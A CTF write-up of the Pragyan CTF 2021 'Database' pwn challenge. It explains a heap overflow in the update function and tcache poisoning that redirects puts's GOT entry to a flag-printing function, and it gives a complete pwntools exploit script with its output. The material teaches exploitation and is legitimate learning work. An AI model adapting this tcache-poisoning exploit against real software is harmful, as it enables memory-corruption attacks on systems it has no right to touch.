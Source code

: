 ```yaml
--- 
layout: post 
title: "[Pragyan CTF] Database" 
date: "2021-03-07" 
categories: [Pwn, Heap-overflow, Tcache]
author: eurus 
---
```



I didn’t solve this challenge in the CTF, but it was a really fun challenge, and my first heap expoitation challenge.
This is the output of the checksec over the ELF of this challenge.

```
Arch:     amd64-64-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled

```

We had an executable that will print this menu, and at will leak for us the address on where is placed the main function since PIE is enabled.

```
 ____        _        ____
|  _ \  __ _| |_ __ _| __ )  __ _ ___  ___ 
| | | |/ _` | __/ _` |  _ \ / _` / __|/ _ \
| |_| | (_| | || (_| | |_) | (_| \__ \  __/
|____/ \__,_|\__\__,_|____/ \__,_|___/\___|

Welcome to MY DataBase!
You can store as many as 0x10 strings!!!
This might help: 0x55af4cc01275
You have following options

+-----------------------------+
| 1. Show all data            |
| 2. Insert a element         |
| 3. Update a element         |
| 4. Remove a element         |
| 5. Exit                     |
+-----------------------------+

```

We can see that is a simple implementation of a database used to store some strings. There are no Use after free or Double free bug since the pointer of the allocated region was nulled after the free.
But in the ```Update a element``` section of the program we have a heap overflow bug. Here we can see the decompiled code for the ```update_item``` function

```c

fwrite("Please enter the index of element => ", 1, 0x25, stderr);
read(0, buf, 8);
index_element = atoi(buf);
if ( *( &data_base + 2 * index_element) ){

      fwrite("Please enter the length of string => ", 1, 0x25, stderr);
      read(0, nptr, 8);
      new_read_size = atoi(nptr);

      *(&data_base + 2 * index_element) = new_read_size;
      fwrite("Please enter the string => ", 1, 0x1B, stderr);
      byte_read = read(0, *( &data_base + 2 * index_element), new_read_size))

      ...
}
else{
      fwrite("Invalid index\n", 1, 0xE, stderr);
    }
```
With this bug we can overwrite the other chunk if we write more data than the size of the selected chunk.
In the version of the glibc that this elf use the tcache bins are used. The tcache bins will mantain a linked list of the freed chunks. The tcache is a data structure used from the glibc that is allocated for each thread, it behave similar to an arena, but is not shared between threads.
The tcache use singly linked, LIFO lists. The procedure used to unlink a chunk from the tcache will write the chunk’s fd (foreward pointer) into the head of the list. 
So the exploit will try to use this to overwrite the pointer to the win function over the pointer of the puts in the got.

```c
int secret()
{
  return system("/bin/cat ./flag");
}

```

First of all we need to create some helper function to interact with the executable. And read the pointer of the main function to calculate where the ELF is mapped in order to take the pointers of the win function and the puts in the got.

```python
def insert_item(leng, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'to save => ', data)

# heap overflow here
def update_item(index, leng, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'of element => ', f'{index}'.encode())
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'string => ', data)

def delete_item(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', f'{index}'.encode())

def leave_int():
    p.sendlineafter(b'choice => ', b'5')
    p.interactive()

p.recvuntilS(b'This might help: ')
main_addr = p.recvlineS()

elf.address = int(main_addr, 16)-elf.sym.main
log.info(f'Main @ {main_addr}')
log.info(f'Base address od the ELF @ {hex(elf.address)}')

win_function_addr = elf.sym.secret
puts_got = elf.got.puts

log.info(f'Win func @ {hex(win_function_addr)}')
log.info(f'puts in got @ {hex(puts_got)}')

```

After this we can start to mess with the heap. First we allocate three chunk of size 0x10. And then we free the third and the second in order to put them in the tcache LIFO linked list.



```python
insert_item(0x10,'aaaa') #index 0
insert_item(0x10,'bbbb') #index 1
insert_item(0x10,'cccc') #index 2

delete_item(2)
delete_item(1)

```

Now we have in the tcache list this situation: HEAD-> elem1->elem2->NULL. Now we can overwrite the fd value of the elem1 by updating the elem0 and perform a heap overflow in this way.

```python

# Heap overflow on the first item, in order to replace 
# the tcache fd to puts GOT address
payload = p64(0)*3+p64(0x21)+p64(puts_got)
update_item(0,len(payload),payload)

```

Now allocating a chunk with size of 0x10 will lead to copy the puts got address (placed in the fd of the first chunk) in the head in the tcache and so by requestiing another chunk with size 0x10 will take us a chunk in the got that point to puts got pointer and so what we write inside this chunk will be written at the entry of puts in the got.

```python

insert_item(0x10, 'ffff')
# This item will be stored at puts GOT address
insert_item(0x10, p64(win_function_addr))
```

Now when the program will call puts, instead of executing the puts function will call the win function ```secret()```.
We can see that in the leave function is used a puts:

```c
int leave()
{
  return puts("Thanks a lot!\nGoodbye!");
}
```

So this is the final script

```python
#! /usr/bin/env python3
import pprint
from pwn import *

exe = './database'
elf = context.binary = ELF(exe)
    
def insert_item(leng, data):
    p.sendlineafter(b'choice => ', b'2')
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'to save => ', data)

# heap overflow here
def update_item(index, leng, data):
    p.sendlineafter(b'choice => ', b'3')
    p.sendlineafter(b'of element => ', f'{index}'.encode())
    p.sendlineafter(b'of string => ', f'{leng}'.encode())
    p.sendafter(b'string => ', data)


def delete_item(index):
    p.sendlineafter(b'choice => ', b'4')
    p.sendlineafter(b'index of element => ', f'{index}'.encode())

def leave_int():
    p.sendlineafter(b'choice => ', b'5')
    p.interactive()

p = remote('binary.challs.pragyanctf.tech', 6004)
#p = elf.process()
#gdb.attach(p)

p.recvuntilS(b'This might help: ')
main_addr = p.recvlineS()

elf.address = int(main_addr, 16)-elf.sym.main
log.info(f'Main @ {main_addr}')
log.info(f'Base address od the ELF @ {hex(elf.address)}')

win_function_addr = elf.sym.secret
puts_got = elf.got.puts

log.info(f'Win func @ {hex(win_function_addr)}')
log.info(f'puts in got @ {hex(puts_got)}')

insert_item(0x10,'aaaa') #index 0
insert_item(0x10,'bbbb') #index 1
insert_item(0x10,'cccc') #index 2

delete_item(2)
delete_item(1)

# Heap overflow on the first item, in order to replace 
# the tcache next pointer to puts GOT address
payload = p64(0)*3+p64(0x21)+p64(puts_got)
update_item(0,len(payload),payload)

insert_item(0x10, 'ffff')
# This item will be stored at puts GOT address
insert_item(0x10, p64(win_function_addr))

# will print the flag since call puts
leave_int()
```
and this is the output of the exploit.
```
[*] '/home/eurus/Downloads/database_/database'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to binary.challs.pragyanctf.tech on port 6004: Done
[*] Main @ 0x559e08b6e275
[*] Base address od the ELF @ 0x559e08b6d000
[*] Win func @ 0x559e08b6e262
[*] puts in got @ 0x559e08d6ecd0
/home/eurus/Downloads/database_/./solver.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendafter(b'to save => ', data)
[*] Switching to interactive mode
p_ctf{Ch4Ng3_1T_t0_M4x1Mum}
[*] Got EOF while reading in interactive
$ 
[*] Interrupted
[*] Closed connection to binary.challs.pragyanctf.tech port 6004
```
